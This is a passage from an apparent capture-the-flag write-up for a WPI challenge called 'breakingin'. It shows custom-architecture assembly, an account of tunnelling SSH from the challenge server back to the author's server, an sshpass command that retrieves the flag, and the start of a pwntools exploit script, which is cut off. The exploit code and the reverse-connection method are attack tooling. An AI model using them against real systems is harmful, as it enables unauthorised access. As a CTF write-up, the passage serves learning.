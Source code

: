 ```x86
0x133769 bad_syscall2 shit shit                 // Tracepoint

sub 0 loop_size 0

0x133769 sys_write write_output_args output
0x133769 sys_write write_packet_args output
```



The only thing left to do was to do some pipe magic on my server so that when I received a connection I could then hook an SSH client up to that connection. I couldn't figure out how to do this in a bash oneliner (if you know how then please let me know), so my teammate Retr0id quickly whipped up a script to do this for me.

Now all that was left to do was to start the listener on my server, connect an SSH client to it and then run my exploit which could start the RoboarchNG proxy and forward the SSH server to my remote server, ultimately giving me an SSH connection from my server to the challenge server.

Needless to say the latency on this was pretty bad, so it was easiest just to cat the flag non-interactively.
```sh
root@pwn:~# sshpass -p "hunter2" ssh -p 31337 breakingin@localhost cat flag.txt
WPI{16_byte_instructions_kinda_suck}
root@pwn:~#
```


The whole script I used is here:
```python
from pwn import *
import sys
import os

def get_file_contents(name):
    with open(name, 'rb') as f:
        d = f.read()
    return d

def assemble(code, out_file='/tmp/out'):
    with open("/tmp/code", "w") as f:
        f.write(code)
    log.info("Assembling")
    os.system("../roboarchngasm {} {} > /dev/null".format('/tmp/code', out_file))
    d = get_file_contents(out_file)
    return d

def send_to_server(t, data):
    log.info("Sending length ({})".format(len(data)))
    t.sendlineafter('):', str(len(data)))
    log.info("Sending binary")
    t.sendafter('teread 0', data)

def assemble_and_send(data, close=True, cont=False):
    data = assemble(data)
    t = remote('breakingin.wpictf.xyz', 31338)
    dump(data, 'lol.bin')
    send_to_server(t, data)
    if cont:
        buf = ''
        try:
            while True:
                nxt = t.recv()
                print(nxt)
                if nxt == '':
                    break
                buf += nxt
```